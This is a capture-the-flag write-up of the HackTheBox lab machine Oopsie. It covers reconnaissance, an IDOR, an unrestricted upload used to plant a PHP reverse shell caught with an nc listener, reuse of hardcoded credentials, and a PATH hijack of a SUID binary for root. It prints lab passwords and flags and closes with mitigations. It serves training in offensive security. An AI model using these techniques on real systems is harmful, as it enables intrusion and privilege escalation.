

# Oopsie - HackTheBox Writeup

**Date:** 2026-04-14
**OS:** Linux
**IP Address:** 10.129.26.226
**Difficulty:** Very Easy
**Points:** 10

---

# 1. Executive Summary

This writeup documents the chronological exploitation of the HackTheBox machine **Oopsie**. The attack path transition from an initial web-based Information Disclosure (IDOR) to Remote Code Execution (RCE), followed by credential harvesting for horizontal movement, and finally a PATH hijack for vertical privilege escalation.

---

# 2. Step 1: Reconnaissance & Enumeration

## 2.1. Nmap Scan
The initial scan identified two open ports: SSH (22) and HTTP (80).

```bash
nmap -sC -sV -oN nmap/Oopsie 10.129.26.226
```

| Port | Service | Version | Notes |
| :--- | :--- | :--- | :--- |
| 22 | SSH | OpenSSH 7.6p1 | Potential for credential reuse later. |
| 80 | HTTP | Apache httpd 2.4.29 | Primary attack surface. |

## 2.2. Web Discovery
A `feroxbuster` scan revealed a hidden directory used for administration:

```bash
feroxbuster -u http://oopsie.htb -o feroxbuster/oopsie-feroxbuster
```

The scan discovered `/cdn-cgi/login/`, which provided a login gateway and pointed toward internal web application logic.

---

# 3. Step 2: Initial Access (User Access)

## 3.1. Vulnerability: Insecure Direct Object Reference (IDOR)
Logging in as a "Guest" (or observing guest account behavior) revealed that the user account page utilized a predictable `id` parameter in the URL:
`http://oopsie.htb/cdn-cgi/login/admin.php?content=accounts&id=2`

By performing an **IDOR attack**—changing the `id` from `2` (Guest) to `1` (Admin)—we successfully retrieved the Super Admin's account metadata, specifically their **Access ID**: `34322`.

## 3.2. Vulnerability: Unrestricted File Upload
With the Super Admin's Access ID, we were able to access the `/uploads` portal. This portal failed to validate file extensions, allowing us to upload a PHP reverse shell.

1.  **Prepare Payload:**
    Modified the standard PHP reverse shell with our local IP and listener port.
    ```bash
    cp /usr/share/webshells/php/php-reverse-shell.php ./exploit.php
    ```
2.  **Upload:** Uploaded `exploit.php` via the administrative portal.
3.  **Trigger:** Started a listener (`nc -lnvp 4444`) and accessed `http://oopsie.htb/uploads/exploit.php`.

**User Status:** `www-data`
**User Flag:** `f2c74ee8db7983851ab2a96a44eb7981` (Found at `/home/robert/user.txt`)

---

# 4. Step 3: Lateral Movement to 'robert'

Upon gaining a shell as `www-data`, internal enumeration of the web directory led to the discovery of sensitive application files.

## 4.1. Credential Harvesting
Inspecting `/var/www/html/cdn-cgi/login/db.php` revealed hardcoded database credentials:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

## 4.2. User Pivot
Using these credentials, we switched from `www-data` to the local user `robert`:
```bash
su robert
# Password: M3g4C0rpUs3r!
```

---

# 5. Step 4: Privilege Escalation (Root Access)

## 5.1. SUID Binary Enumeration
Checking for SUID binaries and group memberships for `robert` revealed that he belongs to the `bugtracker` group, which has execution rights for a custom binary:
```bash
id
# uid=1000(robert) groups=1000(robert),1001(bugtracker)

ls -la /usr/bin/bugtracker
# -rwsr-xr-- 1 root bugtracker ... /usr/bin/bugtracker
```

## 5.2. Vulnerability: PATH Hijacking
Analysis of the `bugtracker` binary revealed that it executes the `cat` command to read bug reports based on a provided ID, but it does **not** specify the absolute path for `cat` (e.g., `/bin/cat`).

## 5.3. Execution
We exploited this by manipulating the `PATH` environment variable to point to a malicious `cat` script first.

1.  **Create Malicious Binary:**
    ```bash
    cd /tmp
    echo "/bin/bash" > cat
    chmod +x cat
    ```
2.  **Hijack PATH:**
    ```bash
    export PATH=/tmp:$PATH
    ```
3.  **Trigger SUID:**
    ```bash
    bugtracker
    # Provide any Bug ID (e.g., 2)
    ```
The binary looked for `cat` in our `PATH`, found our malicious script in `/tmp`, and executed it with root privileges, granting us a root shell.

**Root Flag:** `af13b0bee69f8a877c3faf667f7beacf`

---

# 6. Credentials & Loot

| Username | Password / Hash | Source |
| :--- | :--- | :--- |
| admin | MEGACORP_4dm1n!! | Web Source Code / login JS |
| robert | M3g4C0rpUs3r! | /var/www/html/cdn-cgi/login/db.php |

---

# 7. Recommendations & Mitigation
1. **Sanitize Object References:** Use session-based validation for account data instead of relying on client-side parameters like `id`.
2. **Restrict File Uploads:** Use a whitelist for file extensions and store uploaded files in a directory where execution is disabled.
3. **Hardened SUID Practices:** SUID binaries should never execute system commands without absolute paths and should drop privileges when performing non-critical tasks.
4. **Credential Management:** Avoid hardcoding passwords in web configuration files; use environment variables or managed secrets.

